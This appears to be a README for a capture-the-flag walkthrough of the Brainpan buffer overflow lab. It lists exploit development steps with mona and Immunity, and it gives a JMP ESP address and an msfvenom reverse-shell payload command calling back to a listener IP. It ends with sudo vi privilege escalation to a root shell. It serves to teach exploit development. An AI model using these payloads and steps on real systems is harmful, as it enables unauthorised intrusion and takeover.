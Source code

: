 # brainpan_buffer_overflow
this is a very good ctf to understand linux and windows both stack based bufferoverflow

1. use fuzze .py  --  get size where it creashes
2. create pattern --> pattern_create -l 600
3. get the eip from immunity -- 72413372 
4.  use pattern_offset with -l 600 -q 72413372 -- 520
5. fire bad chars to find what is working inside
6. open mona modules : - !mona modules  - download mona and paste in .wine/drive_c/program file x86/immuntity/pycommands

check out our file is having protections or not if not then pic the address

7. find address --
 Address=0BADF00D
 Message= 0x31170000 | 0x31176000 | 0x00006000 | False  | False   | False |  False   | False  | -1.0- [brainpan.exe] (Z:\root\Downloads\brainpan.exe)

8. open nasm shell - JMP ESP -- FFE4

9. find JMP ESp in mona -- !mona find -s “\xff\xe4” -m modules if it is not working then

close the mona modules and in immuntity go to view execcutables modules -- right click on the module and click on dump data in cpu then press ctrl +f and type JMP ESP

whoop! we go the address --  311712F3   . FFE4           JMP ESP

use these exploits 


#msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.31.148 LPORT=1337 -f c -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai


you got  a kali shell perfect  coz i am running the downloaded exe in my kali . now its time to execute it on the actual target 

now change the address of breainpain machine as 192.168.31.149

send you got a shell but not first time with nc 

so try multi handler 
( protip : -- its allowed in OSCP if you are in fear not to use only meterperter is used at once -- other wise multihandler , msfvenom , auxilary you can use,also scripts )


type sudo -l 

use command manual vi 
!bin/bash 

---------------------------------------

boom !!! 

it also contains a linux bof so i will upload it in my blog 

-----

i will also uploadloading the entire process at my blog - https://blog.certcube.com

regards,
Naresh

